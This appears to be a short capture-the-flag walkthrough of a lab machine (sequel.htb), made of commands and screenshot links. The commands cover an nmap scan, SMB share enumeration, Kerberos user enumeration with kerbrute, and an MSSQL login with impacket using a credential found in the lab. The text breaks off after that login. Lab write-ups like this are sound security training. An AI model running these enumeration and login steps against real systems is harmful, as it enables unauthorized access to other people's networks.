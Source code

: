 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.202
dc.sequel.htb
```
![image](https://github.com/user-attachments/assets/9263ebf5-8f7b-407d-baa3-e3a46e8540af)

```
smbclient -L \\\\10.10.11.202\\
smbclient \\\\10.10.11.202\\Public
```
![image](https://github.com/user-attachments/assets/f31422ee-e143-4d2a-bef8-505127c28203)

```
python3 -m http.server 80
http://10.10.14.6/SQL%20Server%20Procedures.pdf
PublicUser | GuestUserCantWrite1
```
![image](https://github.com/user-attachments/assets/dd949602-8c3c-435d-b04e-0dc1ecb8d7ff)

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.202 -d sequel.htb users_0
```
![image](https://github.com/user-attachments/assets/53c9d8de-3ef7-4c76-a88d-b3c09f6caa53)

```
impacket-mssqlclient sequel.htb/PublicUser:GuestUserCantWrite1@10.10.11.202
```
![image](https://github.com/user-attachments/assets/7e05713f-178e-422a-b6da-f926408facd2)
